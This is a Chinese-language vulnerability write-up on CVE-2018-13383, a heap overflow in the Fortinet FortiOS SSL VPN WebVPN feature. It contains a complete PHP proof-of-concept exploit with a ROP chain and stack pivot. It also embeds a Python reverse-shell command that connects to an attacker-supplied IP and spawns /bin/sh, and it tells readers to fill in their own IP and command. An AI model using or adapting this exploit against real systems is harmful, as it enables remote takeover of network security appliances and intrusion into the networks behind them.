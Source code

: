# CVE-2018-13383 Fortinet FortiOS 缓冲区错误漏洞

### 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.2.0之前版本中存在堆缓冲区溢出漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

### 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5

### 三、复现过程

这是WebVPN功能的漏洞。在解析HTML中的JavaScript时，它会尝试使用以下代码将内容复制到缓冲区中：


```
memcpy(buffer, js_buf, js_buf_len);
```

缓冲区大小固定为0x2000，但输入字符串是无限制的。因此，这里存在堆溢出。值得注意的是，此漏洞可以溢出Null字节，这在我们的利用中很有用。
为触发此溢出，我们需要将exploit放到HTTP服务器上，然后以普通用户权限登录SSL VPN代理访问我们的exploit为普通用户。

这里我们用PHP编写的PoC放在HTTP服务器上:

*//请自行修改里面的ip以及所需要的执行的命令*


```php
<?php
function p64($address) {
    $low = $address & 0xffffffff;
    $high = $address >> 32 & 0xffffffff;
    return pack("II", $low, $high);
}
$junk = 0x4141414141414141;
$nop_func = 0x32FC078;

$gadget  = p64($junk);
$gadget .= p64($nop_func - 0x60);
$gadget .= p64($junk);
$gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;
$gadget .= p64($junk);
$gadget .= p64($junk);
$gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;
$gadget .= p64(0x1bed1f6); // pop rax ; ret ;
$gadget .= p64(0x58);
$gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;
$gadget .= p64(0x1366639); // call system ;
$gadget .= "python -c 'import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);' xx.xxx.xx.xx /bin/sh;";

$p  = str_repeat('AAAAAAAA', 1024+512-4); // offset
$p .= $gadget;
$p .= str_repeat('A', 0x1000 - strlen($gadget));
$p .= $gadget;
?>
<a href="javascript:void(0);<?=$p;?>">xxx</a>
```

这个PoC可以分为三个部分。

**1.虚假的SSL structure**

SSL structure和我们的缓冲区相靠，因此我们可以精确伪造。为了避免崩溃，我们将method设置为一个包含空函数指针的位置。此时的参数是 SSL structure本身s。但是，method前面只有8个字节，我们不能简单地调用`system("/bin/sh");`，这对于我们的反向shell来说是不够的。不过由于那个巨大的二进制文件，我们很容易找到ROP小片段。我们发现一个有用的堆栈枢轴:

因此，我们将handshake_func设置为这个小片段，将rsp移动到SSL structure中，进行下一步的ROP攻击。

**2.ROP链**

这里的ROP链很简单。我们稍微向前移动rdi，以便有足够的空间执行反向shell命令。

**3.溢出的字符串**

最后，我们连接溢出填充并加以利用。一旦我们溢出了SSL structure，就会得到一个shell。

最终稳定利用还需要多次尝试，因为有时程序会提前崩溃。但无论如何，攻击还是奏效了，只需要1~2分钟，就可以获得一个反向shell。